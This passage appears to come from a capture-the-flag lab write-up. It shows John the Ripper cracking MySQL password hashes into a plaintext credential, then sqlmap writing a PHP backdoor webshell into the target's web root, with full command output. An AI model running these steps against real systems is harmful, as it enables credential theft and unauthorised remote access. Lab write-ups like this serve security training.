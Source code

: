 Using John the Ripper, we can crack the password hash with `rockyou.txt`.
```shell
root@kali:~# cat hash.txt 
hector:*0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
manager:*CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA
root:*0A4A5CAD344718DC418035A1F4D292BA603134D8
```
```shell
root@kali:~# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=mysql-sha1
Using default input encoding: UTF-8
Loaded 3 password hashes with no different salts (mysql-sha1, MySQL 4.1+ [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
l33th4x0rhector  (hector)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:01 DONE (2020-08-22 18:57) 0.7299g/s 10468Kp/s 10468Kc/s 25610KC/sa6_123..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now we got this credential.
```shell
hector:l33th4x0rhector
```

Next, to achieve a shell, upload a PHP webshell using the following command.<br>
We have `simple-backdoor.php` installed on Kali linux.
```shell
root@kali:~# sqlmap -r request.txt --file-write=/usr/share/webshells/php/simple-backdoor.php --file-dest=C:/inetpub/wwwroot/backdoor.php

---

[*] starting @ 19:05:43 /2020-08-22/

[19:05:43] [INFO] parsing HTTP request from 'request.txt'
[19:05:43] [INFO] resuming back-end DBMS 'mysql' 
[19:05:43] [INFO] testing connection to the target URL

---

[19:05:44] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[19:05:44] [INFO] fingerprinting the back-end DBMS operating system
[19:05:44] [INFO] the back-end DBMS operating system is Windows
[19:05:45] [WARNING] potential permission problems detected ('Access denied')
[19:05:46] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)          
do you want confirmation that the local file '/usr/share/webshells/php/simple-backdoor.php' has been successfully written on the back-end DBMS file system ('C:/inetpub/wwwroot/backdoor.php')? [Y/n] Y
[19:06:05] [INFO] the local file '/usr/share/webshells/php/simple-backdoor.php' and the remote file 'C:/inetpub/wwwroot/backdoor.php' have the same size (328 B)
[19:06:05] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.167'

[*] ending @ 19:06:05 /2020-08-22/
```
